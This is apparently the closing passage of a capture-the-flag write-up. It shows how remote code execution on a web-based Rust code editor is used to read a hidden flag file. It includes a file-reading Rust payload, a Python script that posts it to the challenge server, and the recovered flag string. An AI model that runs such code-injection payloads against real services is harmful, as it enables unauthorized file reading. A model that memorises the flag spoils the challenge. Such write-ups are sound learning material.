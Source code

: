 <img src="https://i.imgur.com/8QEzyfl.png" alt="Directory Listing" width="600"/>

### Step 4: Reading the Flag File
Finally, I crafted another Rust script to read the contents of the `flag2781263` file:

```rust
use std::fs;

fn main() {
    let contents = fs::read_to_string("/flag39283761/flag2781263").expect("Unable to read file");
    println!("{}", contents);
}
```

Running this request in Burp Suite, it successfully retrieved the flag.

<img src="https://i.imgur.com/sgpzJ3D.png" alt="Flag Content" width="600"/>

## Script
```py
import requests
import re

url = "http://34.107.71.117:32677/editor"
headers = {
    "Host": "34.107.71.117:32677",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close",
    "Content-Type": "application/x-www-form-urlencoded"
}
payload = {
    "codename": """use std::fs;

fn main() {
    let contents = fs::read_to_string("/flag39283761/flag2781263").expect("Unable to read file");
    println!("{}", contents);
}
"""
}

r = requests.post(url, headers=headers, data=payload)
pattern = r'CTF\{[0-9a-fA-F]{64}\}'
match = re.search(pattern, r.text)
if match:
    print(match.group())
else:
    print(r.text)

```
## Flag
`CTF{c7d604ecd0da6804f45d958b4c5fb622488250bd05c29b99d0134f3bfdda2fc4}`